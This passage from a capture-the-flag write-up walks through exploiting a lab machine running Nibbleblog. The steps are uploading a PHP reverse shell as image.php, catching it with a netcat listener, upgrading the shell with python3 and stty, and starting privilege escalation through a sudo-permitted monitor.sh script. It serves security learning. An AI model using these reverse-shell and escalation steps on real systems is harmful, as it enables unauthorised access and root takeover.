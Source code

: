 Head over to [pentestmonkey](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) and get the code for a PHP reverse shell. Change the IP address and port used by your attack machine. Then save it in a file called image.php and upload it on the site.

![image](https://user-images.githubusercontent.com/87195021/162628470-6d1a78b5-1d45-4a4c-93a6-28bce2ce2d11.png)

Start a listener on the above chosen port.

    nc -nlvp 4321

In the browser, navigate to the image we just uploaded to run the reverse shell script.

    http://10.129.122.71/nibbleblog/content/private/plugins/my_image/image.php


We have a low privileged shell!

![image](https://user-images.githubusercontent.com/87195021/162629058-28f60454-a6d5-4889-8a9b-85a3028a7408.png)

Let’s first upgrade to a better shell. Python is not installed but python 3 is.

    python3 -c 'import pty; pty.spawn("/bin/bash")'

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session `(CTRL+ Z)` and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

    stty raw -echo

Once that is done, run the command `fg` to bring netcat back to the foreground.

Grab the user flag.

![image](https://user-images.githubusercontent.com/87195021/162629282-92695a86-abc2-42ec-91ef-6da4b180124b.png)

Now we need to escalate privileges.

## Privilege Escalation

Find out what privileges you have.

    sudo -l


![image](https://user-images.githubusercontent.com/87195021/162629331-4574089e-f8a4-4d10-bceb-0b25e6215810.png)

We can run the script monitor.sh in the above specified directory as root without having to enter a root password. Why is that good news for us? If we call a shell in that script, we can run it as root!

First, let’s see what the script contains.

![image](https://user-images.githubusercontent.com/87195021/162629430-b59b7900-c0cc-41d2-abea-44a47cdcc7a5.png)

It does not exist! We’ll have to create one.

    mkdir -p home/nibbler/personal/stuff
    
    cd /home/nibbler/personal/stuff
    